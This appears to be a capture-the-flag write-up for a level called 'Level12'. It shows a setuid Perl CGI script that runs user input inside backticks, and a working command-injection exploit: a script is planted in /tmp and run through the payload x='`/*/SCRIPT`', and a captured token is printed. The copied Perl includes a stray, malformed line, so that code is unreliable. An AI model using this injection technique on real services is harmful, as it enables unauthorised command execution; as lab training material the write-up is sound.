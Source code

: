 # Level12

```bash
ls -la
# Output, Another perl script, gonna read it
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl
cat level12.pl
```

```pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; // y
  $xx = $_[0]; // x
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  $xx="\" /tmp/xd ; echo hell > ls"\"
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")))
```
--> curl localhost:4646?x=token\&y=/tmp/xd
--> n(t(x, y))
--> xx = TOKEN
--> egrep "^TOKEN" /tmp/xd 2>&1
--> egrep: /tmp/xd: No such file or directory
--> egrep, /tmp/xd
--> /tmp/xd == y

echo "getflag > /tmp/flag" > /tmp/SCRIPT
chmod +x /tmp/SCRIPT
curl localhost:4646?x='`/*/SCRIPT`'
cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

[perl_regex](https://perldoc.perl.org/perlre)